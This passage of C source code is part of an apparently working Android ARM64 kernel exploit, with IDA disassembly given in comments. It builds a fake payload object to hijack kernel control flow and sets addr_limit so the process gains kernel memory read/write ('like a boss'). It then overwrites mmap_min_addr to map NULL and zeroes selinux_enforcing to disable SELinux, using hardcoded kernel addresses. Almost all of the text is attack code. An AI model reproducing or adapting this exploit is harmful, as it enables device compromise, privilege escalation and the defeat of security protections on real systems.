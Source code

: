 ```
	    to avoid 64bit exp crash here
	    ROM:FFFFFFC00040250C  LDR             X1, [X0,#0x290]
	    ROM:FFFFFFC000402510  CBZ             X1, loc_FFFFFFC000402590
	   */
	   *(unsigned long *)((char *)payload + 0x290)  = 0;
	   /*
	    hijack PC here
	    ROM:FFFFFFC0003FEA24                 MOV             X0, X19
	    ROM:FFFFFFC0003FEA28                 LDR             X2, [X19,#0x28]
	    ROM:FFFFFFC0003FEA2C                 LDR             X2, [X2]
	    ROM:FFFFFFC0003FEA30                 BLR             X2    
	   */

	   /*
	    call kernel_setsockopt to set addr_limit 0xFFFFFFFFFFFFFFFF

	    ROM:FFFFFFC00035D788                 STP             X29, X30, [SP,#-0x20+var_s0]!
	    ROM:FFFFFFC00035D78C                 CMP             W1, #1
	    ROM:FFFFFFC00035D790                 MOV             X5, SP
	    ROM:FFFFFFC00035D794                 MOV             X29, SP
	    ROM:FFFFFFC00035D798                 STP             X19, X20, [SP,#var_s10]
	    ROM:FFFFFFC00035D79C                 AND             X19, X5, #0xFFFFFFFFFFFFC000
	    ROM:FFFFFFC00035D7A0                 MOV             X5, #0xFFFFFFFFFFFFFFFF
	    ROM:FFFFFFC00035D7A4                 LDR             X20, [X19,#8]
	    ROM:FFFFFFC00035D7A8                 STR             X5, [X19,#8]
	    ROM:FFFFFFC00035D7AC                 B.EQ            loc_FFFFFFC00035D7CC
	    ROM:FFFFFFC00035D7B0                 LDR             X5, [X0,#0x28]
	    ROM:FFFFFFC00035D7B4                 LDR             X5, [X5,#0x68]
	    ROM:FFFFFFC00035D7B8                 BLR             X5
	    ROM:FFFFFFC00035D7BC                 STR             X20, [X19,#8]
	    ROM:FFFFFFC00035D7C0                 LDP             X19, X20, [SP,#var_s10]
	    ROM:FFFFFFC00035D7C4                 LDP             X29, X30, [SP+var_s0],#0x20
	    ROM:FFFFFFC00035D7C8                 RET

	   */
	   *(unsigned long *)((char *)payload + 0x28)  = (unsigned long)payload;
	   *(unsigned long *)((char *)payload)         = (unsigned long)0xFFFFFFC00035D788;
	   *(unsigned long *)((char *)payload + 0x68)  = (unsigned long)0xFFFFFFC00035D7C0;
	   close(exp_sock);

	   printf("[*] now we can R/W kernel address space like a boss.\n");
	   /*now we can RW kernel address spcae like a boss.*/

	   /*
	      overwrite the global variable mmap_min_addr to 0, then we can mmap NULL in user-mode 
	   */
	   data8 = 0; 
	   kernel_write8((void *)0xffffffc000652148, &data8);
	   user_mm = mmap(NULL, PAGE_SIZE, PROT_READ|PROT_WRITE|PROT_EXEC, MAP_PRIVATE| MAP_FIXED |MAP_ANONYMOUS, -1, 0);
	   if(MAP_FAILED == user_mm)
	   {
	      perror("[*] mmap NULL fail");
	      return -1;
	   }

	   /*
	      overwirte selinux_enforcing to disable selinux
	   */
	   data4 = 0;
	   kernel_write4((void *)0xffffffc00065399c, &data4);
	   printf("[*] selinux disabled.\n");

```